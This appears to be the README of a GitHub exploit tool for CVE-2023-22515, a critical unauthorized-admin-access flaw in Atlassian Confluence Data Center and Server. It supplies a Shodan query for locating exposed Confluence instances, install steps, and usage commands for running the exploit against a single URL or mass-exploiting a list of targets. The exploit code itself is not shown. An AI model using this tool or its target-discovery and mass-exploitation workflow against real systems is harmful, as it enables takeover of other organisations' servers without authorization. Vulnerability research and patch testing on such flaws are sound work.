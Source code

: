 # CVE-2023-22515

![](https://img.shields.io/static/v1?label=Product&message=Atlasian%20Confluence&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Confluence%20Data%20Center%20and%20Server&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthorized%20Admin%20Access&color=red)

- Shodan dork:
```
http.favicon.hash:-305179312
```

### Install
```
pip install -r requirements.txt
```

### Usage

```
python3 exploit.py normal https://example.com/confluence
```

```
python3 exploit.py mass targets.txt
```
